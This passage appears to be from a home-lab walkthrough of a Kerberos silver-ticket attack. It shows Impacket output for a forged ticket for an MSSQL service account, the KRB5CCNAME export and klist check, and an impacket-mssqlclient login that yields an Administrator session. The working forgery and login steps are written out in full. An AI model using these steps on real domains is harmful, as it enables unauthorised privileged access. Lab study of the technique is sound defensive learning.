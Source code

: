 ```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for furious.local/sql_user
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in sql_user.ccache
```
### Step 4: Export the Ticket

```
export KRB5CCNAME=sql_user.ccache
```
verify it using  `klist`

```
klist
```
```
┌──(kali㉿kali)-[~/Home-lab/Kerbrose/forged-ticket/silver-ticket]
└─$ export KRB5CCNAME=sql_user.ccache
                                                                                                         
┌──(kali㉿kali)-[~/Home-lab/Kerbrose/forged-ticket/silver-ticket]
└─$ klist
Ticket cache: FILE:sql_user.ccache
Default principal: sql_user@FURIOUS.LOCAL

Valid starting       Expires              Service principal
05/06/2025 02:01:42  05/04/2035 02:01:42  MSSQLSvc/DC01-FURIOUS5.furious.local:1433@FURIOUS.LOCAL
        renew until 05/04/2035 02:01:42
                                                                                                         
┌──(kali㉿kali)-[~/Home-lab/Kerbrose/forged-ticket/silver-ticket
```

### Step 5: Login using MSSQL Client

Finally, use the following command to log in using the MSSQL client:

```bash
impacket-mssqlclient furious.local/sql_user@DC01-FURIOUS5.furious.local  -k -no-pass
```

```
┌──(kali㉿kali)-[~/Home-lab/Kerbrose/forged-ticket/silver-ticket]
└─$ impacket-mssqlclient furious.local/sql_user@DC01-FURIOUS5.furious.local -k -no-pass 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(dc01-furious5): Line 1: Changed database context to 'master'.
[*] INFO(dc01-furious5): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (FURIOUS\Administrator  dbo@master)> 
SQL (FURIOUS\Administrator  dbo@master)> 
SQL (FURIOUS\Administrator  dbo@master)> 
```
